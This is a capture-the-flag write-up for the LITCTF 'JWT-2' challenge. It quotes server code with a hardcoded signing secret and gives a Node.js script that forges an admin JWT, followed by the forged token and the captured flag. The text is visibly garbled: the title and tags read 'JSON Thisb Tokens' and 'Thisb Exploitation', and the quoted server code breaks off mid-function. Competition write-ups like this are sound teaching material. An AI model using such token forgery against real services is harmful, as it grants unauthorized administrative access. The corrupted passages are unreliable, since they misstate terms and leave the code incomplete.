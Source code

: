```yaml
---
layout: post
title:  "JWT-2"
description: Further exploiting JSON Thisb Tokens
date:   2024-08-14
tags: ["Thisb Exploitation", "LITCTF", "JSON", "Easy"]
category: [CTF,LITCTF]
---
```




# Challenge Info
`its like jwt-1 but this one is harder.
URL: http://litctf.org:31777/`

attached: [index.ts](https://drive.google.com/uc?export=downloads&id=18gNp6DphcZBI5UmGjKsXhCkZvF1aIB6F&name=index.ts)

![JWT-2](/assets/img/JWT-2/challenge.png)


## Preface
While this *is* a separate challenge, its fundamentals are heavily derived from the [first](/posts/jwt1) JWT challenge, which I heavily recommend you read first.


## Trying the first solution
Since this is a continuation of the **first** JWT challenge, I figured I'd try the same solution. A quick recap on how I beat the first one:

1. Register an account on the given site
2. Use Burpsuite intercept to capture the JWT associated with our account
3. Use [jwt.io](https://jwt.io) to read the contents of our JWT
4. Modify `admin` so that it equals to `true`
5. Access the "GET FLAG" button with our **new** JWT and acquire flag

For this challenge, while I **was** able to capture the JWT token and modify it to have `admin` set to `true`, upon actually using it, I was greeted with this:

![unauthorized](/assets/img/JWT-2/unauthorized.png)

## Inspecting the attached TypeScript file
By now, I realized this challenge wouldn't be as simple as the last one, so I decided to skim through the attached TypeScript file, which I'll leave down below:

```ts
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payloads: object) => {
  const jwtPayloads = Buffer.from(JSON.stringify(payloads), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayloads).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayloads + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payloads, signature] = token.split(".");
    if (!header || !payloads || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payloads
    const decodedPayloads = Buffer.from(payloads, "base64").toString();
    // parse payloads
```
Just to highlight what this code does:

`const [header, payloads, signature] = token.split(".");`
- splits the JWT token into its three parts; header, payloads, and signature, and the `.` acts as a delimiter.

`if (!req.cookies.token)`
- checks if the token is missing, and responds with `403 Unauthorized` if it is.

`Buffer.from(header,"base64").toString()` `Buffer.from(payloads,"base64").toString()`
- The header and payloads are decoded from base64 to their original string format.


However, what's really making us hit our head is the following:
```js
const sign = (payloads: object) => {
  const jwtPayloads = Buffer.from(JSON.stringify(payloads), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayloads).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayloads + "." + signature;
```

This removes the `=` characters from both the base64-encoded payloads and signature. This is normal in JWTs though, and doesn't affect the token's validity. The main issue here isn't the removal of padding, but making sure that the token **we** craft adheres to this format.

## Solution

The payloads that I came up with:

```js

const crypto = require('crypto');

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payloads) => {
  const jwtPayloads = Buffer.from(JSON.stringify(payloads), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto
    .createHmac("sha256", jwtSecret)
    .update(jwtHeader + "." + jwtPayloads)
    .digest("base64")
    .replace(/=/g, "");
  return jwtHeader + "." + jwtPayloads + "." + signature;
};

const payloads = { name: "your_username", admin: true };
const forgedToken = sign(payloads);
console.log(forgedToken); // This is the token you will use.
```

This payloads creates a token using the `xook` secret, modifies `admin` to `true`, and removes all padding (`=` characters).

Then, I replaced the old token in Burpsuite intercept with the new one: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieW91cl91c2VybmFtZSIsImFkbWluIjp0cnVlfQ.xwxnk5ogziOC8xlMNuolHBuQDbefnLA9rATCeS7fS+s`, and hit "forward".

![flag](/assets/img/JWT-2/flag.png)

flag: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`
